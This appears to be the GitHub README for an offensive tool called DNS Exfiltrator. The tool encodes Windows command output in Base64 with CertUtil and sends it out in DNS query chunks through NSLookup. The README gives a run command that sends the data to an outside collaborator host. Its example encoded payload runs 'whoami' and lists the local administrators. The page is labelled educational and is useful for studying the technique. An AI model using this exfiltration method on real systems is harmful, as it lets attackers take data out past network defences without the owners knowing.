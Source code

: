 # DNS Exfiltrator

Exfiltrate data via DNS query. Based on CertUtil and NSLookup.

Command output will be encoded in Base64 encoding with CertUtil, and exfiltrated in chunks up to 63 characters per query with NSLookup.

Batch script for exfiltrating the command output was tested on Windows 10 Enterprise OS (64-bit).

Bash script for decoding the payload was tested on Kali Linux v2020.3 (64-bit).

Made for educational purposes. I hope it will help!

**TO DO: Make the whole Batch script as an one-liner.**

## How to Run

**TO DO: Make this section more clear.**

Open the Command Prompt from [\\src\\](https://github.com/ivan-sincek/dns-exfiltrator/tree/main/src) and run the following command:

```fundamental
dns_exfiltrator.bat d2hvYW1p xyz.burpcollaborator.net
```

Your command must be a Batch one-liner encoded in Base64 encoding, e.g. `d2hvYW1pICYmIG5ldCBsb2NhbGdyb3VwIGFkbWluaXN0cmF0b3Jz` - which is equal to `whoami && net localgroup administrators`.

**TO DO: Not all DNS queries get pulled from Burp Collaborator. Find a solution. Maybe make my own Burp Suite extension.**

## Images

<p align="center"><img src="https://github.com/ivan-sincek/dns-exfiltrator/blob/main/img/dns_exfiltration.jpg" alt="DNS Exfiltration"></p>

<p align="center">Figure 1 - DNS Exfiltration</p>

<p align="center"><img src="https://github.com/ivan-sincek/dns-exfiltrator/blob/main/img/wireshark_burp.jpg" alt="Wireshark & Burp Collaborator"></p>

<p align="center">Figure 2 - Wireshark & Burp Collaborator</p>

<p align="center"><img src="https://github.com/ivan-sincek/dns-exfiltrator/blob/main/img/save_wireshark_tcp_stream.jpg" alt="Wireshark TCP Stream"></p>

<p align="center">Figure 3 - Wireshark TCP Stream</p>
